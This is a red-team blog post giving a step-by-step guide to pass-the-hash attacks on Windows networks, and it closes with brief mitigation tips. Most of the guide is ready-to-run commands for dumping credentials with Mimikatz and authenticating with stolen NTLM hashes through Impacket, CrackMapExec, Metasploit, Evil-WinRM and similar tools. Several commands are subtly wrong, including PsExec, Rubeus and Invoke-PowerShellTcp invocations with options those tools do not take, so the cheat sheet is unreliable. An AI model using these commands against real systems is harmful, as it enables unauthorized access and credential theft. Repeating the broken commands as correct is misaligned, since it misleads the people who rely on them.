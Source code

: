```yaml
---
layout: blog
title: "Pass-the-Hash Attack: An In-Depth Look with Examples and Commands"
tags: redteaming c2
comments: true
date: 2023-04-08
---
```


# Pass-the-Hash Attack: An In-Depth Look with Examples and Commands

Pass-the-Hash (PtH) is a well-known attack technique that targets Windows authentication systems. It enables attackers to use a user's password hash, instead of the plain-text password, to authenticate to network resources. In this blog post, we will dive into the details of this attack, discuss examples and commands, and provide a real-world attack scenario.

## Understanding Pass-the-Hash

Windows systems primarily use two types of authentication protocols: NTLM (NT LAN Manager) and Kerberos. Both protocols store password hashes, which are fixed-length representations of a user's password. When a user logs in, Windows checks the entered password's hash against the stored hash. If they match, the user is granted access.

In a PtH attack, the attacker captures a user's password hash and uses it to authenticate to network resources as the targeted user, without needing to know the plain-text password. This allows the attacker to bypass many security controls and gain unauthorized access to sensitive data.
<br/>
## How to Perform a Pass-the-Hash Attack

Here is a step-by-step guide to performing a PtH attack, including the tools and commands:

1. **Capture the password hash**: The first step is to obtain the target user's password hash. This can be done using various methods, such as dumping hashes from the Security Account Manager (SAM) database or extracting hashes from a system's memory using tools like Mimikatz.

Example command using Mimikatz:

```bash
mimikatz.exe privilege::debug sekurlsa::logonpasswords
```


<br/>
2. **Use the captured hash for authentication**: Once the password hash is obtained, the attacker can use it to authenticate to network resources. Tools like PsExec or CrackMapExec can be used to perform PtH attacks.

### For Kali Linux/Linux

+ **Impacket (pth-winexe)**
```bash
pth-winexe -U TARGET_DOMAIN/USER%NTLM_HASH //TARGET_IP cmd
```
+ **Impacket (secretsdump.py)**
```bash
python3 secretsdump.py -ntds TARGET_DOMAIN/USER:PASSWORD@TARGET_IP
```
+ **CrackMapExec**
```bash
crackmapexec smb TARGET_IP -u USER -H NTLM_HASH
```
+ **Metasploit Framework (auxiliary module: smb_login)**
```bash
msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS TARGET_IP
set SMBDomain TARGET_DOMAIN
set SMBUser USER
set SMBPass NTLM_HASH
run
```
+ **Evil-WinRM**
```bash
evil-winrm -i TARGET_IP -u USER --hash NTLM_HASH
```
+ **Wmiexec**
```bash
wmiexec.py -hashes LM_HASH:NTLM_HASH TARGET_DOMAIN/USER@TARGET_IP
```
+ **Smbexec**
```bash
smbexec.py -hashes LM_HASH:NTLM_HASH TARGET_DOMAIN/USER@TARGET_IP
```

### For Windows

+ **Mimikatz**
```bash
mimikatz.exe "sekurlsa::pth /user:USER /domain:TARGET_DOMAIN /ntlm:NTLM_HASH /run:cmd.exe" "exit"
```

+ **PowerShell Empire**
```bash
.\Invoke-PowerShellTcp.ps1 -Hash NTLM_HASH -Username USER -Domain TARGET_DOMAIN -IPAddress TARGET_IP
```

+ **PsExec**
```bash
psexec.exe \\TARGET_IP -u TARGET_DOMAIN\USER -p NTLM_HASH cmd.exe
```
+ **Rubeus**
```bash
Rubeus.exe pth /user:USER /domain:TARGET_DOMAIN /ntlm:NTLM_HASH /target:TARGET_IP
```


## Conclusion

Pass-the-Hash attacks are dangerous because they exploit inherent weaknesses in Windows authentication mechanisms. To defend against PtH attacks, organizations should adopt a multi-layered security approach, including:

- Implementing privileged access management (PAM)
- Regularly patching and updating software
- Using strong, unique passwords
- Enabling security features like Credential Guard
- Restricting the use of administrative accounts

Understanding how Pass-the-Hash attacks work, along with effective mitigation strategies, is essential to protect your organization from unauthorized access and data breaches.
